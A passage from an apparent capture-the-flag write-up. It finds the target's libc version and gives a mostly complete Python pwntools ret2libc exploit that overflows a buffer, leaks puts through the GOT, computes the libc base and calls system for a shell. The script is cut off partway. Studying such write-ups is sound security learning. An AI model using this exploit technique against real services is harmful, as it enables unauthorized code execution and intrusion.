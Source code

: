 So these are the possible libc versions:

```
Possible libc: output-symbols-libc6-i386_2.19-10ubuntu2_amd64.so
Possible libc: output-symbols-libc6_2.19-10ubuntu2_i386.so
Possible libc: output-symbols-libc6_2.19-10ubuntu2.3_i386.so
Possible libc: output-symbols-libc6-i386_2.19-10ubuntu2.3_amd64.so
Possible libc: output-symbols-libc6_2.27-3ubuntu1_i386.so
```

So we can see that the two possible versions are `2.27` and `2.19`. I tried `2.27` at first because it is much more modern, and it worked. Now since we know the libc version, and we have a libc infoleak, we can just slightly modify our exploit to get a shell. We will modify the first payload to only give us a single libc infoleak, and then call `vuln` again. The second time around we will just overwrite the return address to point to `system` from libc, with the argument being `/bin/sh` from libc too.

Also to find the offset from the start of the libc to `/bin/sh`, I just used a hex editor for that.

## Exploit

Putting it all together, we have the following exploit:

```
cat exploit.py
import TheNight
from pwn import *


target = remote("chal.utc-ctf.club", 4902)
libc = ELF("libc6_2.27-3ubuntu1_i386.so")

#target = process("./server")
elf = ELF('server')


payload = ""
payload += "0"*0x3c
payload += p32(elf.symbols["puts"])
payload += p32(elf.symbols["vuln"])
payload += p32(elf.got["puts"])

target.sendline(payload)


for i in range(0, 2):
    print target.recvuntil("Return address:")


for i in range(0, 2):
    print target.recvline()


leak0 = target.recvline()[0:4]

puts = u32(leak0)

libcBase = puts - libc.symbols["puts"]

print "libc base: " + hex(libcBase)

binshOffset = 0x17e0cf

payload1 = ""
payload1 += "0"*0x3c
payload1 += p32(libcBase + libc.symbols["system"])
```
